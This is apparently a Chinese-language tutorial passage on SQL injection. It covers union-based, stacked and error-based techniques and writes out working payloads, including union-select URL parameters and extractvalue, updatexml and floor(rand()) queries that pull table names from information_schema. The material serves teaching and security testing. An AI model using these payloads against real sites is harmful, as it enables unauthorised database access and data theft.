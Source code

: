 ### 联合注入

联合注入依靠页面返回有特定的回显，利用`union select`且短路原sql语句，额外带出想要的数据并显示在页面中

假设页面中返回了`name`信息，我们推测网站原sql语句如下，
```php
SELECT id, name, pass FROM users WHERE name='$name' and pass='$pass'";
```

则联合注入的工作思路是：
```
?name=zqq&pass=-1' ordey by 1 # 2,3,4 ... 确定列数
?name=zqq&pass=-1' union select 1,2,3; # 返回想要的数据，注意-1 让 union select 左边无数据返回
```

### 堆叠注入

输入多条用分号（;）分隔的 SQL 语句时，这些语句通常会按照它们出现的顺序依次执行。堆叠注入一般也是要依靠网页有回显利用。

### 报错注入

报错注入是利用SQL语句执行报错且报错信息回显于页面中

#### XPATH syntax 报错

在mysql（大于5.1版本）中添加了对XML文档进行查询和修改的函数：
- updatexml: 对 XML 数据进行修改。它接收一个原始 XML 字符串，一个 XPath 表达式以定位需要修改的部分，以及一个新的 XML 片段来替换旧的部分
```sql
SELECT updatexml('<Person><Name>John Doe</Name><Age>30</Age></Person>', '//Name', '<Name>Jane Doe</Name>');

<Person><Name>Jane Doe</Name><Age>30</Age></Person>
```
- extractvalue: 用于从 XML 文本中提取数据。它接收一个 XML 字符串和一个 XPath 表达式作为参数，并返回 XPath 表达式指定的 XML 文档部分的内容
```sql
SELECT extractvalue('<Person><Name>John Doe</Name><Age>30</Age></Person>', '//Name');

John Doe
```

当这两个函数在执行时，如果出现xml文档路径错误就会产生报错
```sql
select 1 and (extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))));

select 1 and (updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),3));
```

![](/data/image/web-sqlxmlerr.png)

#### Duplicate entry-floor函数报错

可以利用floor()这个函数触发Duplicate entry报错，该报错在MySQL的 5.0 版本及以上版本都可以使用，但是在8.0版本已失效
```sql
select count(*),floor(rand(0)*2) x from users group by x;

select count(*),concat(database(),floor(rand(0)*2)) as x from information_schema.tables group by x;
```
注意相关表中需要有3条数据，才能触发报错
